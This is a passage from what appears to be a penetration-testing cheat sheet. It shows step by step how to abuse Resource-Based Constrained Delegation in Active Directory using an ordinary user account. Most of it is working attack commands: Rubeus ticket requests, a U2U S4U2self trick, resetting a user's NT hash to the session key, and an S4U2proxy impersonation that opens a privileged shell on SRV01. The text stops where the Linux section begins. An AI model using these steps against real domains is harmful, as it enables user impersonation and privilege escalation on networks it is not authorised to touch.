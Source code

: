 - [https://www.n00py.io/2023/01/exploiting-resource-based-constrained-delegation-rbcd-with-pure-metasploit/](https://www.n00py.io/2023/01/exploiting-resource-based-constrained-delegation-rbcd-with-pure-metasploit/)




## RBCD with UPNs

- [https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

{% tabs %}
{% tab title="Windows" %}
User **j.doe** is populated within the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the **SRV01** machine:

```
PS > Set-ADComputer SRV01 -PrincipalsAllowedToDelegateToAccount j.doe
```

Request a regular TGT for **j.doe**:

```
PS > .\Rubeus.exe asktgt /user:j.doe /rc4:fc525c9683e8fe067095ba2ddc971889 /nowrap
```

Request a U2U ticket providing TGT within the `/ticket` **and** `/tgs` options and specifying the user to impersonate within the `/targetuser` option (this is an S4U2self request):

```
PS > .\Rubeus.exe asktgs /u2u /targetuser:<USER_TO_IMPERSONATE> /nowrap /ticket:<TGT> /tgs:<TGT>
```

Obtain a hex view of the current TGT session key (RC4 HMAC):

```
$ python3 -c 'import binascii,base64;print(binascii.hexlify(base64.b64decode("<TGT_SESSION_KEY_B64>")).decode())'
```

Set **j.doe**'s NT hash to the hexlified TGT session key:

```
$ smbpasswd.py megacorp.local/j.doe:'Passw0rd!'@DC01.megacorp.local -newhashes :<TGT_SESSION_KEY_HEX> -altuser MEGACORP/snovvcrash -altpass 'Passw0rd123!'
```

Go for the S4U attack providing the initial TGT within the `/ticket` option and the forwardable TGS (got from the U2U request) within the `/tgs` option (only the S4U2proxy part is performed):

```
PS > .\Rubeus.exe s4u /msdsspn:host/SRV01.megacorp.local /altservice:http /ticket:<TGT> /tgs:<TGS> /createnetonly:C:\Windows\System32\cmd.exe /show
```
{% endtab %}
{% tab title="Linux" %}
From Linux systems [Impacket](https://github.com/fortra/impacket/pull/1202#issuecomment-1257289045) can be used to operate the technique.
